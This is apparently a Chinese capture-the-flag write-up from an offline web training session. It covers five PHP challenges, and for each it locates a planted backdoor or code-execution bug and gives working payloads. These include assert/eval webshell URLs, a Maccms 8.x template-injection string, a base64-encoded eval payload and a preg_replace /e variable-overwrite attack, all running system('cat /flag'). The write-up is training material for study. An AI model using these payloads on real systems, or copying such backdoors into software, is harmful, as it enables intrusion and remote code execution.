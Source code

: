```yaml
---
title: 线下Web训练
date: 2018-04-14 00:00:00
categories:
- CTF/Web
tags: 开心的三人组 
--- 
```


## web1

### 漏洞位置


/engine/Plugin/View.php | 227行 | 任意代码执行


```php
@($_REQUEST['test']);
```


### 漏洞利用

由于View.php第一行代码：

```php
<?php defined('WEBSITE_ACCESS') or die('No direct script access.');
```

使得View.php必须通过定义了WEBSITE_ACCESS的php文件包含才能加载，尝试在index.php直接get提交test参数，即可利用成功。菜刀连接直接连接index.php即可，密码为test。或者利用如下url直接getflag：

```
index.php?test=system('cat /flag');
```

具体index.php是如何包含view.php的，过程比较复杂，我还没研究明白。

## web2

> 本题不能通过直接把服务器下载的源码直接挂到其他服务器上，因为要连接数据库，所以找未安装的maxcms源码运行install.php即可，源码下载：[https://pan.baidu.com/s/1D43OY8k01UNALZsLCBEN4A](链接:https://pan.baidu.com/s/1D43OY8k01UNALZsLCBEN4A) 密码:pc4m


### 漏洞分析

[Maccms8.x 命令执行漏洞分析(苹果cms) - 颓废's Blog](https://www.0dayhack.com/post-285.html)

### 漏洞利用：

菜刀连接如下url，密码为0

```
/index.php?m=vod-search&wd={if-A:assert($_POST[0])}{endif-A}
```

或者利用如下url直接getflag

```
/index.php?m=vod-search&wd={if-A:system('cat /flag')}{endif-A}
```

## web3

### 漏洞位置


/admin/inc/configuration.php | 4行 | 任意代码执行


```php

@array_map('assert',(array)base64_decode($_REQUEST['getconfig']));
```

#### array_map

将函数作用到数组中的每个值上，每个值都乘以本身，并返回带有新值的数组：

```php
<?php
function myfunction($v)
{
  return($v*$v);
}

$a=array(1,2,3,4,5);
print_r(array_map("myfunction",$a));
?>
```

### 漏洞分析

1. 将请求中的getconfig参数baes64编码后，转换为数组
2. 将数组中的每一个值（其实就一个），传给assert函数，导致任意代码执行

### 漏洞利用

```php

<?php

echo base64_encode('@eval($_POST[0]);')."\n";
//QGV2YWwoJF9QT1NUWzBdKTs=

echo base64_encode("system('cat /flag');");
//c3lzdGVtKCdjYXQgL2ZsYWcnKTs=

?>
```

菜刀连接如下url，密码为0

```
admin/inc/configuration.php?getconfig=QGV2YWwoJF9QT1NUWzBdKTs=
```

或者直接getflag

```
admin/inc/configuration.php?getconfig=c3lzdGVtKCdjYXQgL2ZsYWcnKTs=
```

## web4

> php5.4及其以上正常运行此题

### 漏洞位置


/index.php | 8-11行 | 任意代码执行


```php
if(md5(@$_GET['p']) == '962012d09b8170d912f0669f6d7d9d07'){
    eval($_POST['hello']);
    die();
}

```



/data/inc/front/product.php| 53行 | 任意代码执行


```
($_=@$_GET['hs']).@$_($_POST['c014']);
```



### 漏洞分析

- 漏洞1

cmd5解出962012d09b8170d912f0669f6d7d9d07为qwer

- 漏洞2

product.php第一行

```php
defined('defined('IN_CMS') or exit('Access denied!');') or exit('Access denied!');
```

需要被定义IN_CMS的其他php文件包含才能执行，容易发现index.php有file参数，即可包含

index.php 90-101行
```php

if (isset($_GET['file']))
{
	$file = $_GET['file'];
	if (strpos($file, '..')!==false || strpos($file, 'images/')!==false){
		die("ctf{ff96520020d34df2f5058e74bc274c87}");
	}
	include('data/inc/front/'.$_GET['file'].'.php');
}
else
{
	include('data/inc/front/index.php');
}

```

### 漏洞利用


- 漏洞1

```
index.php?p=qwer

hello=system('cat /flag');
```

- 漏洞2

```
index.php?file=product.php&cid=3&page=1&hs=system

c014=cat /flag
```

## web5

### 漏洞位置

/normaliz.php | 4-17行 | 任意代码执行


```
function action($post_data, $ip_replacement, $mail_replacement){
	foreach ($post_data as $key => $value) {
		$$key = $value;
	}
	try{
		if ($method == '/\\d+\\.\\d+\\.\\d+\\.\\d+/')
		{
			$res = preg_replace($method, $ip_replacement, $source);
		}
		else
		{
			$res = preg_replace($method, $mail_replacement, $source);
		}
	}
```

### 漏洞分析

1. $$key=$value;导致变量覆盖，可覆盖$method, $ip_replacement, $source
2. 使$method覆盖为为/e匹配模式
3. 找到$post_data在/action.php中由所有的POST参数生成
4. 并且action.php存在文件包含功能

action.php

```php

<?php
require_once("library/common.php");
require_once("library/view.php");
$page = filter($_POST['page']).'.php';
$post_data = array();
foreach ($_POST as $key => $value) {
	$post_data[$key] = $value;
}
@require_once($page);
?>

```

### 漏洞利用

利用action.php包含normaliz.php，然后覆盖相应变量即可，payload如下：

```
/action.php

page=normaliz&method=/a/e&mail_replacement=system('cat /flag');&source=a
```

